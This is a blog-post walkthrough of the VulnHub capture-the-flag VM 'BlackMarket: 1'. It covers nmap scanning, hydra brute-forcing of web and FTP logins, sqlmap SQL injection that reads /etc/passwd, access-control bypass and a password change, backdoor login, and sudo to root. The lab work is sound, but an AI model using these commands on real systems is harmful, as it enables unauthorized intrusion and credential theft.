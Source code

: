 ```yaml
---
layout: post
date: 2018-06-17 11:33:26 +0000
last_modified_at: 2018-06-17 19:28:45 +0000
title: "BlackMarket: 1 Walkthrough"
category: Walkthrough
tag: "[VulnHub, BlackMarket]"
comments: true
image:
  feature: blackmarket-1-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/pistol-weapon-target-crime-fight-2948729/
---
```


This post documents the complete walkthrough of BlackMarket: 1, a boot2root [VM][1] created by [AcEb0mb3R][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

The BlackMarket VM was first presented at Brisbane SecTalks BNE0x1B. This VM has a total of six flags and one `root` flag. Each flag leads to another and the flag format is `flag{blahblah}`.

### Information Gathering

Let's start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.10.130
...
PORT    STATE SERVICE    REASON         VERSION
21/tcp  open  ftp        syn-ack ttl 64 vsftpd 3.0.2
22/tcp  open  ssh        syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 a9:98:84:aa:90:7e:f1:e6:be:c0:84:3e:fa:aa:83:8a (DSA)
|   2048 07:5c:77:15:30:5a:17:95:8e:0f:91:f0:2d:0b:c3:7a (RSA)
|   256 2f:9c:29:b5:f5:dc:f4:95:07:6d:41:ee:f9:0d:15:b8 (ECDSA)
|_  256 24:ac:30:c7:79:7f:43:cc:fc:23:df:ea:db:bb:4a:cc (ED25519)
80/tcp  open  http       syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: BlackMarket Weapon Management System
110/tcp open  pop3?      syn-ack ttl 64
|_ssl-date: TLS randomness does not represent time
143/tcp open  imap       syn-ack ttl 64 Dovecot imapd
|_ssl-date: TLS randomness does not represent time
993/tcp open  ssl/imap   syn-ack ttl 64 Dovecot imapd
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Issuer: commonName=localhost/organizationName=Dovecot mail server
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-11-01T07:05:35
| Not valid after:  2027-11-01T07:05:35
| MD5:   beb8 4ed5 6adc dc0e d595 6678 2039 473e
|_SHA-1: 94b8 f1b8 913e a32b 4ea1 6e58 4252 8a7c c432 c897
|_ssl-date: TLS randomness does not represent time
995/tcp open  ssl/pop3s? syn-ack ttl 64
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Issuer: commonName=localhost/organizationName=Dovecot mail server
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-11-01T07:05:35
| Not valid after:  2027-11-01T07:05:35
| MD5:   beb8 4ed5 6adc dc0e d595 6678 2039 473e
|_SHA-1: 94b8 f1b8 913e a32b 4ea1 6e58 4252 8a7c c432 c897
|_ssl-date: TLS randomness does not represent time
```

`nmap` finds plenty of open services. But, let's start with `http` since there is a higher chance of finding an attack surface here.

### Flag: 1

Indeed, the first flag is in the HTML source of the landing page at `http://192.168.10.130/`.

![Flag: 1](/assets/images/posts/blackmarket-1-walkthrough/0.ib8ttza2a7.png)

I thought the flag's body looked like it's `base64` encoded. This is what I get after decoding it.

```
# echo -n Q0lBIC0gT3BlcmF0aW9uIFRyZWFkc3RvbmU= | base64 -d && echo
CIA - Operation Treadstone
```

Hmm. CIA? Operation Treadstone? Jason Bourne?

Following the trail of the first flag, I google for "CIA - Operation Treadstone" and build a wordlist with `cewl` from the first [result](http://bourne.wikia.com/wiki/Operation_Treadstone) — it might be useful later, who knows?

Here's how.

```
# cewl -w cewl.txt http://bourne.wikia.com/wiki/Operation_Treadstone
```

### Directory Fuzzing

Next, I use `dirbuster` with one of the bigger wordlists to fuzz the site — to uncover any directories that are not visible from the get-go.

```
Dir found: / - 200
Dir found: /admin/ - 302
Dir found: /css/ - 403
Dir found: /db/ - 403
Dir found: /dist/ - 403
Dir found: /dist/css/ - 403
Dir found: /dist/js/ - 403
Dir found: /icons/ - 403
Dir found: /server-status/ - 403
Dir found: /squirrelmail/ - 302
Dir found: /supplier/ - 302
Dir found: /upload/ - 403
Dir found: /user/ - 302
Dir found: /vendor/ - 403
```

The fuzz turns up `/squirrelmail` and `/upload` — potential attack surfaces. Files like `/header.php` and `/navbar` are also consistently seen (return code `200`) under `/admin`, `/supplier`, and `/user`, which suggests that the site could be using role-based access.

### BlackMarket Login

This is how the login page looks like.

![BlackMarket Login](/assets/images/posts/blackmarket-1-walkthrough/0.6weguu5c7s.png)

Let's use `hydra` to perform a brute-force login attack on the site and see if we can pick any low-hanging fruit. `usernames.txt` contains `admin`, `supplier` and `user`, and `top10.txt` contains the top-ten passwords found in the dark web.

```
# hydra -L usernames.txt -P top10.txt -f -e nsr -o hydra.txt -t 64 192.168.10.130 http-post-form "/login.php:username=^USER^&password=^PASS^:failed"
[80][http-post-form] host: 192.168.10.130   login: supplier   password: supplier
```

Boom. I'm in. And as you can see, what is in `top10.txt` is not important because the password is the same as the username.

![Login Success - supplier](/assets/images/posts/blackmarket-1-walkthrough/0.g3bb3gue5yu.png)

### SQL Injection

I know that I'm looking at a potential SQL injection vulnerability when it involves product ID in a table of products.

![Potential SQL Injection Vulnerability](/assets/images/posts/blackmarket-1-walkthrough/0.9z3g24swagm.png)

The tool for the job is `sqlmap`. I'll need the session cookie to scan for SQLi vulnerabilities.

![Cookie from Firefox](/assets/images/posts/blackmarket-1-walkthrough/0.foxwz3nrnh8.png)

```
sqlmap --cookie="PHPSESSID=og152rg2j9k54tll52l146g9j4" --url=http://192.168.10.130/supplier/edit_product.php?id=1
```

![SQL Injection](/assets/images/posts/blackmarket-1-walkthrough/0.ndsxku3wwn.png)

Awesome. Let's proceed to determine the databases and dump out interesting information from them.

Five databases in MySQL.

![Databases](/assets/images/posts/blackmarket-1-walkthrough/0.ww0hiyl86oe.png)

Ten tables in `BlackMarket`.

![Tables in BlackMarket](/assets/images/posts/blackmarket-1-walkthrough/0.7d9nzmb276f.png)

Five users in `user` table.

![User_Table in BlackMarket](/assets/images/posts/blackmarket-1-walkthrough/0.dlp3yrthkfj.png)

Here's `/etc/passwd` that I read off with `--file-read` command option.

```
root:x:0:0:root:/root:/bin/bash
...
dimitri:x:1000:1000:,,,:/home/dimitri:/bin/bash
jbourne:x:1001:1001::/var/www/html/jbourne:
nicky:x:1002:1002:,,,:/home/nicky:/bin/ftponly
ftp:x:112:120:ftp daemon,,,:/srv/ftp:/bin/false
```

### Flag: 2

Notice that the way for `nicky` to log in is through `ftp`? I know that `ftp` is available from the `nmap` scan. Armed with this information, let's give a shot to `hydra` with the wordlist I built earlier on, and try to brute-force our way in.

```
# hydra -l nicky -P cewl.txt -f -o hydra.txt -e nsr -t 64 ftp://192.168.10.130)
[21][ftp] host: 192.168.10.130   login: nicky   password: CIA
```

The second flag is in the file `IMP.txt`. You can find the file at `/ftp/ImpFiles` after logging in.

```
# cat IMP.txt
flag2{Q29uZ3JhdHMgUHJvY2VlZCBGdXJ0aGVy}

If anyone reading this message it means you are on the right track however I do not have any idea about the CIA blackmarket Vehical workshop. You must find out and hack it!
```

It's decoded to this.

```
# echo -n Q29uZ3JhdHMgUHJvY2VlZCBGdXJ0aGVy | base64 -d
Congrats Proceed Further
```

Let's proceed further then.

### Flag: 3

The third flag is in the `flag` table — one of the tables in `BlackMarket` database.

![Flag: 3](/assets/images/posts/blackmarket-1-walkthrough/0.qoxa0vrn9b.png)

I'm supposed to find the email access of Jason Bourne; and we know from the results of the `dirbuster` fuzz that `/squirrelmail` exists — a web-based email client.

![SquirrelMail](/assets/images/posts/blackmarket-1-walkthrough/0.ufgx697kl7l.png)

### Flag: 4

Recall the `supplier` login access? Because of poor coding in the role-based access, I can change the URL to a different role such as `/admin` and access their respective landing pages with `supplier` session cookie.

![Admin Landing Page](/assets/images/posts/blackmarket-1-walkthrough/0.xeywdl0ado.png)

Besides changing to the landing pages of other roles with the same session cookie, I can also change the login password of any user as long as I know the user ID. Let's change the password of `admin` (`id=1`) through `/edit_customer.php` using Burp Repeater.

![Burp Repeater](/assets/images/posts/blackmarket-1-walkthrough/0.vjdzvr2g4ll.png)

I've changed `admin`'s password to `admin`. Flag 4 is on display once I'm logged in.

![Flag: 4](/assets/images/posts/blackmarket-1-walkthrough/0.b9g442s2qoq.png)

It's decoded to this.

```
# echo -n bm90aGluZyBpcyBoZXJl | base64 -d && echo
nothing is here
```

Trolled — the decoded message says "nothing is here".

### Flag: 5

Since there's a tendency of trolling, perhaps `?????` is the password to Jason Bourne email access?

![Login Success - jbourne](/assets/images/posts/blackmarket-1-walkthrough/0.f45j0gwoq6.png)

Sure enough.

Looking into **INBOX.Drafts** lies the fifth flag and an encrypted message from putin@kgb.gov.ru. No prize for guessing who that is :wink:

![Flag: 5](/assets/images/posts/blackmarket-1-walkthrough/0.yyg8yhsrie.png)

It's decoded to this.

```
# echo -n RXZlcnl0aGluZyBpcyBlbmNyeXB0ZWQ= | base64 -d && echo
Everything is encrypted
```

Duh. The decoded flag offers nothing of value.

### Decryption

It's obvious that we are looking at some kind of substitution cipher. The method to decipher it — is to look for words with repeated characters. For example, straight up we have "Wrnrgir", which is a substitution for "Dimitri". As such, the first line is "Hi Dimitri".

Moving on to the word "zxxvhh", which has two pairs of repeated characters — we can turn to regular expression and a dictionary to help us find the next substitution candidate.

```
# grep -P '^[a-z]([a-z])\1[a-z]([a-z])\2$' /usr/share/dict/words
abbess
access
appall
assess
bootee
hoodoo
muumuu
peewee
teepee
voodoo
```

The substitution candidate is possibly "access" as the other words don't make contextual sense in the message.

As I piece together the substitution candidates and the contextual clues, I come to realize the substitution key is the reverse alphabet set. I wrote a simple bash script to decrypt the whole message.

```bash
#!/bin/bash

SET1=$((echo -n {a..z}; echo -n {A..Z}) | tr -d ' ')
SET2=$((echo -n {z..a}; echo -n {Z..A}) | tr -d ' ')

cat $1 | tr $SET1 $SET2
```

```
# ./decrypt.sh encrypted.txt
Hi Dimitri
If you are reading this I might be not alive. I have place a backdoor in Blackmarket
workshop under /kgbbackdoor folder you must have to use
PassPass.jpg in order to get access.
```

### BlackMarket Auto Workshop

Hmm. Another web application? I got a `404 - Not Found` when I navigated to `/eworkshop` following the trail.

Not knowing how to proceed, I use the following command hoping that I'll be lucky enough to locate the web application by trying all the alphabetical letters before `workshop`.

```
# for c in {a..z}; do printf "/${c}workshop/: %d\n" $(curl -s -w %{http_code} -o /dev/null 192.168.10.130/${c}workshop/); done
/aworkshop/: 404
/bworkshop/: 404
/cworkshop/: 404
/dworkshop/: 404
/eworkshop/: 404
/fworkshop/: 404
/gworkshop/: 404
/hworkshop/: 404
/iworkshop/: 404
/jworkshop/: 404
/kworkshop/: 404
/lworkshop/: 404
/mworkshop/: 404
/nworkshop/: 404
/oworkshop/: 404
/pworkshop/: 404
/qworkshop/: 404
/rworkshop/: 404
/sworkshop/: 404
/tworkshop/: 404
/uworkshop/: 404
/vworkshop/: 200
/wworkshop/: 404
/xworkshop/: 404
/yworkshop/: 404
/zworkshop/: 404
```

The web application is at `/vworkshop`. Wait a minute! Didn't the second flag mention **Vehical workshop**? I got trolled again.

![BlackMarket Workshop](/assets/images/posts/blackmarket-1-walkthrough/0.drh14ev63nm.png)

### KGB Backdoor

From the decrypted message, we got to know that a backdoor is in the BlackMarket Auto Workshop and that we need `PassPass.jpg` to gain access to it. Here's how `PassPass.jpg` looks like.

![PassPass.jpg](/assets/images/posts/blackmarket-1-walkthrough/0.8hfnu6g9x1j.png)

Like they always say — the devil is in the detail.

```
# strings PassPass.jpg | tail -1
Pass = 5215565757312090656
```

### Backdoor Login

This time round, I rely on good ol' fashion guesswork to determine the location of the backdoor. It's at `/vworkshop/kgbbackdoor/backdoor.php`.

![backdoor.php](/assets/images/posts/blackmarket-1-walkthrough/0.s3vwa3ng4w.png)

From the HTML source of the page, it's obvious that to access the backdoor, I need to submit a `POST` request with password. To that end, I wrote a simple HTML login form.

{% highlight html linenos %}
<html>
  <head>
    <style>
      body {
        width: 300px;
        height: 100px;
        margin: 0 auto;
        display: flex;
        justify-content: center;
        align-items: center;
        padding: 100px;
      }
    </style>
    <title>Backdoor Login</title>
  </head>
  <body>
    <div class="login">
      <h2>Come on, let's do this!</h2>
      <form action="http://192.168.10.130/vworkshop/kgbbackdoor/backdoor.php" method="post">
        <input name="pass" type="password" />
        <button type="submit">Login</button>
      </form>
    </div>
  </body>
</html>
{% endhighlight %}

And … `5215565757312090656` is not the password — too bad.

![Failed Login](/assets/images/posts/blackmarket-1-walkthrough/0.d1oy6u6w75t.png)

This prompts me to look deeper into `5215565757312090656`. Notice that it has nineteen digits, an odd number — there's no way this is hexadecimal; it's an integer.

Next, I convert the integer into hexadecimal and print it out as ASCII.

```
# printf "%x\n" 5215565757312090656 | xxd -p -r
HailKGB
```

This is more like it.

![KGB Backdoor](/assets/images/posts/blackmarket-1-walkthrough/0.e4yov7k59cf.png)

Boom. I'm in.

### Flag: 6

The sixth flag is at the home directory of the backdoor.

![Flag: 6](/assets/images/posts/blackmarket-1-walkthrough/0.hv89dztx7xs.png)

It's decoded to this.

```
# echo -n Um9vdCB0aW1l | base64 -d && echo
Root time
```

I must be getting close.

### Dimitri Hates Apple

I get it — Dimitri hates Apple products.

![Dimitri Hates Apple](/assets/images/posts/blackmarket-1-walkthrough/0.az52lg1aat.png)

Having gone so far into this challenge, I'm pretty sure this is the password for `dimitri`'s account. In fact, I got in without realizing that I typed `DimitriHateApple` instead `DimitryHateApple`. What a stroke of luck!

![Login Success - dimitri](/assets/images/posts/blackmarket-1-walkthrough/0.w0kkzwogx9i.png)

### Root Time

My lucky streak continues — `dimitri` is able to `sudo` as `root`.

![sudo](/assets/images/posts/blackmarket-1-walkthrough/0.vxk49yhov1.png)

Time to be `root` and call it a day.

![The End](/assets/images/posts/blackmarket-1-walkthrough/0.8ct87zflfpe.png)

:dancer:

### Decoded Flags

```
1. CIA - Operation Treadstone
2. Congrats Proceed Further
3. Find Jason Bourne Email access
4. nothing is here
5. Everything is encrypted
6. Root time
```

[1]: https://www.vulnhub.com/entry/blackmarket-1,223/
[2]: https://twitter.com/@Acebomber911
[3]: https://www.vulnhub.com
